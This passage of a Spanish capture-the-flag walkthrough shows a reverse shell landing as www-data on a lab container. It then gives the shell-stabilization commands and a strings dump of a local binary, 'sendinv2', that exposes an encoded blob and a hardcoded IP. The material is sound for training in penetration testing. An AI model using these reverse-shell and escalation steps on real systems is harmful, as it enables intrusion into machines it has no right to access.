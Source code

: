 Y si volvemos donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 45316
$ whoami
whoami
www-data
```

Ahora tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user

Si nos vamos a la siguiente ruta:

```shell
cd /var/www
```

Vemos un archivo bastante interesante llamado `sendinv2` que contiene un texto compilado, pero hay partes medio legibles, pero si utilizamos la herramienta `strings` podremos ver la siguiente parte bastante interesante:

```shell
strings sendinv2
```

Info:

```
FDTS42ZKNCWOYZSHF2GEM2NM5NFO53HLIZUUMLDI44GOULNPBUFSMTUIRMVQULTJFEEE3DCNZHGQYSXHF5ESR2WOVEUOVTVLEZUU4DDJBJGQY3JIJWGGM2SNQFESSCON
RRW4WTMMNUUE522LBFHMSKHGV3ESSCSOBNFONLMJFDTK2C2I5CWOWSHKVTWCVZVGBNFQSTMMN4XOZ3EI5KWOWKXNB3GG3SKNBRW2VLHMRDWY3DCLBBHMCSPNFBGUY3N
R5GIR2GONHW2UTZMIZUE2TBI44XUZCHHF3U4RCVPJKTA4CHJFCG6Z22I5WHUWTOJIYWIR2FJMFA===
%s%s%s%s%s%s
Error al crear el socket
172.17.0.188
Error al enviar datos
```
